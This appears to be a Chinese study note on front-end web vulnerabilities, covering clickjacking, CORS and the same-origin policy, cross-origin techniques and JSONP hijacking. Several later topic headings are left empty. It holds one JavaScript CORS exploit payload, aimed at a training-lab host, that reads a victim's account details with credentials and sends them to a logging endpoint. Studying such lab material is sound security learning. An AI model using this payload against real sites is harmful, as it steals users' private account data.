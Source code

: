 # Clickjacking

html+css+js---->csrf+xss

亘古不变的道理，前面掌握的越好，后面的高度越高。

# CORS

什么是同源：https://www.ruanyifeng.com/blog/2016/04/cors.html

MDN介绍：https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS

一个域名地址的组成：

![img](前端其它漏洞.assets/1200.png)

同源条件：

1.   当协议、子域名、主域名、端口号中任意一个不相同时，都算做不同域；
2.   不同域之间相互请求资源，就算作“跨域”，比如：http://www.example.com/index.php 请求 http://www.efg.com/service.php这里就算是跨域（源）。

同源策略的目的就是为了保证用户信息的安全，防止恶意网站窃取数据。

iframe，csrf。

==学习要点，最好去搞一个前后端分离的项目弄一弄，理解CORS的本质。==



跨域安全性：

-   cookie、localStorage、sessionStorage等存储型的内容
-   DOM节点操作；



CORS跨域方式：

-   正常方式（需要服务器，客户端支持，属于正常开发要求）；
-   SRC
    -   `<img src=xxx>`
    -   `<link href=xxx>`
    -   `<script src=xxx>`
-   JSONP
    -   跨域所利用的方式为标签的SRC;
-   postMessage
-   Location.hash
-   window.name
-   document.domain





payload：

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','0a7c006603f0e05b8020353400bc0091.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
    location='/log?key='+this.responseText;
};
```



# JSONP劫持

JSONP（JSON with padding，填充式 JSON 或参数式 JSON），它的出现就是为了跨域获取资源而产生的一种非官方的技术手段（官方的有CORS和postMessage），它利用的是`<script>`标签的src属性不受同源策略的影响的特性。

# WebSockets

# Business logic vulnerabilities

# information disclosure

# Web cache poisoning

# HTTP Host header poisoning

# HTTP Host header attacks

# HTTP request smuggling